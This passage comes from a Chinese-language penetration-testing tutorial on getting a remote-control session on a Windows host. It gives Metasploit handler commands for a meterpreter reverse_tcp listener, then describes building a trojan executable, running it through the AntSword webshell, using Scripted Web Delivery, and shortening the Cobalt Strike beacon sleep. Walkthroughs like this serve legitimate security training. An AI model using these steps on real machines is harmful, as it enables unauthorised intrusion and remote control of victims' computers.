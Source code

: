 ##### 方法一：配置MSF

```java
use exploit/multi/handler ///使用exploit/multi/handler进行探测
set payload Windows/meterpreter/reverse_tcp /// 设置payload ‘Windows/meterpreter/reverse_tcp’ 进行监听
show options ///查看下哪些选项需要配置
set LHOST 192.168.72.129 ///设置下主机地址(kali)
run ///开始攻击
```

![image-20220615144814255](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206241053965.png)

##### 方法二：使用Windows Executable

创建木马文件

![image-20220623092417812](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206230924875.png)

利用蚁剑上传文件并执行文件

![image-20220623092614057](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206230926131.png)

![image-20220623092739805](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206230927835.png)

执行成功后，会发现CS里成功上线，我们修改心跳时间为1s，默认为60s

```
sleep 1
或者直接右键修改sleep
```

![image-20220623092828049](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206230928081.png)

![image-20220623092923693](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206230929720.png)

##### 方法三：使用Scripted Web Delivery (S)

生成木马

![image-20220623093431630](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206230934673.png)

![image-20220623093239022](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206230932049.png)

使用蚁剑执行生成的命令，此时CS端同样会上线主机

#### 4、输入shell进入交互模式

> 在Xshell中修改编码格式为CBK，解决中文乱码问题

![image-20220615145940462](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151459493.png)

#### 6 收集主机 系统信息

##### 6.1 主机 和 域环境
